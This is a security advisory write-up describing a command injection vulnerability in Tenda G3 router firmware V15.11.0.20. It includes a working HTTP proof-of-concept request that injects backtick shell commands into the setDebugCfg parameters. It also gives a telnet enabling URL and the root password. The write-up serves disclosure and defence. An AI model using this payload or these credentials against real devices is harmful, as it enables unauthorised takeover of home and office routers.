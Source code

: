 # Tenda G3 Command injection vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There are multiple command injection vulnerabilities in tenda G3 V15.11.0.20, which can execute arbitrary command in route system.

## Affected version

![](pic/1.png "")

Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetDebugCfg:

![](pic/code1.png "")

The program passes the contents obtained by the enable parameter 、level parameter、module parameter to pEnable、pLevel、pModule respectively.
Then, format the matching content of pEnable、pLevel、pModule through the sprintf function into cmd.  
The cmd is called by system().  
There exists command injection vulnerability.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
GET /goform/setDebugCfg?enable=0`touch${IFS}/tmp/zoe1`&level=0`touch${IFS}/tmp/zoe2`&module=msgd`touch${IFS}/tmp/zoe3` HTTP/1.1
Host: 192.168.0.252
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Languag
e: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close
Content-Length: 0
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect.png "")

Figure shows POC attack effect, the file zoe1、zoe2、zoe3 is created.

## CVE-ID

unsigned
